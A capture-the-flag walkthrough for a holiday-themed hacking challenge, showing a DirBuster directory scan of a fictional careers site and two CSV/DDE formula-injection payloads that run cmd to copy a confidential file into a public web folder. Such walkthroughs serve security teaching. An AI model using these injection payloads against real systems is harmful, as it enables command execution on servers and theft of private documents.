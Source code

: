 # 7. HR Incident Response
> Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K." For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

1. Ran DirBuster to find the existence of `/public/`:

```bash
docker run --rm hypnza/dirbuster -u  https://careers.kringlecastle.com/
Jan 04, 2019 11:54:45 PM java.util.prefs.FileSystemPreferences$1 run
INFO: Created user preferences directory.
Starting OWASP DirBuster 0.12 in headless mode
Starting dir/file list based brute forcing
Dir found: / - 200
Jan 04, 2019 11:54:47 PM au.id.jericho.lib.html.LoggerProviderJava$JavaLogger info
INFO: StartTag at (r172,c2,p5860) missing required end tag
Jan 04, 2019 11:54:47 PM au.id.jericho.lib.html.LoggerProviderJava$JavaLogger info
INFO: StartTag at (r227,c3,p7829) missing required end tag
File found: /static/js/postrequest.js - 200
Dir found: /public/ - 200
Dir found: /css/ - 200
Dir found: /Public/ - 200
^C
Caught exit of DirBuster
Writing report
Report saved to /DirBuster-0.12/DirBuster-Report-careers.kringlecastle.com-443.txt
Enjoy the rest of your day
```

2. Went to https://careers.kringlecastle.com/public/ and read:

```
Publicly accessible file served from: 
C:\careerportal\resources\public\ not found......

Try: 
https://careers.kringlecastle.com/public/'file name you are looking for'
```

3. Wrote a CSV file with a payload to copy `C:\candidate_evaluation.docx` to `C:\careerportal\resources\public\a.a` in such a way that I can download it:

```
Name, LastName
"Mister", "=DDE(""cmd""; "" /C copy C:\candidate_evaluation.docx C:\careerportal\resources\public\a.a""; ""asdfasdfasdf"")!A0"

Name, LastName
"Mister", "=cmd|' /C copy C:\candidate_evaluation.docx C:\careerportal\resources\public\a.a) '!A0"


```
